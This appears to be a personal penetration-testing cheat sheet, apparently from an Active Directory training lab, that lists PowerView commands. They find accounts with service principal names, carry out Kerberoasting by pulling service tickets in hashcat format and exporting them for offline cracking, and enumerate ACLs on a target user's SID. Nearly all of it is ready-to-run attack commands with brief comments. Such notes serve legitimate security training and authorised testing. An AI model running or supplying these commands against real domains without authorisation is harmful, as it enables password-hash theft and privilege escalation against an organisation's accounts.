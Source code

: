 ^a626c8

#### Find Users w/ SPN Set
```powershell
Get-DOmainUser -SPN -Properties samaccountname,ServicePrincipalName
```

#### Kerberoasting
```powershell
# Import module
Import-Module .\PowerView.ps1

# Get Available SPNs
Get-DomainUser * -spn | select samaccountname

# Get TGS for specific SPN, formatted for hashcat cracking
Get-DomainUser -Identity sqldev| Get-DomainSPNTicket -Format Hashcat

# Get TGS for all SPNs and output to csv
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\inlfreight_tgs.csv -NoTypeInformation

# Then crack using Hashcat
```

^2c6ed0

#### ACLs
###### Enum ACLs
```powershell
# Get all ACLs in domain. Not super helpful as it will be a massive output requiring the laborous and time consuming process of manually going through it and is likely inaccurate.
Find-InterestingDomainAcl

# Targetted ACL enum for specific user
# first, get the user's suid
$sid = Convert-NameToSid <user>
$sid = Convert-NameToSid wley

# Enum ACLs for that user, note that the key piece is the SecurityIdentifier attribute, and that it will be a GUID so you will need to google search what the GUID means or use powershell (below).
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}

# Get meaning of ACL GUID
# In this example, the guid "00299570-246d-11d0-a768-00aa006e0529" was identified in the previous command under the SecurityIdentifier field.
$guid = "00299570-246d-11d0-a768-00aa006e0529"

Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl

# or just make your life easy and use the -ResoveGUIDs flag
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

